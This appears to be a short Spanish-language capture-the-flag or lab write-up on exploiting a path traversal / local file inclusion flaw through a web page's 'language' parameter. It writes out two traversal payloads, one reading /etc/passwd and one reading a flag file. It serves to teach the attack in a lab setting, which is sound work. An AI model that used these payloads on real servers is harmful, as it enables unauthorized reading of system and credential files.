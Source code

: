 # LFI: Path Traversal

La página web que vulneraremos es:

![Web.PNG](./assets/01-Primero/01-web.PNG)

* Podemos seleccionar un **lenguaje** para nuestra página web, aquí es donde la url usa un **párametro** `?languaje=<Archivo>.php`

---

Para leer el archivo `/etc/passwd` usaremos el siguiente payload `http://<IP>/index.php?language=/../../../../etc/passwd`

![passwd.PNG](./assets/01-Primero/02-passwd.PNG)

* El usuario es `barry`

---

Para leer el contenido del archivo `flag.txt` usaremos el siguiente payload `http://<IP>/index.php?language=/../../../../../../../../../usr/share/flags/flag.txt`

<p align="center">
    <img src="/assets/01-Primero/03-flag.PNG">
</p>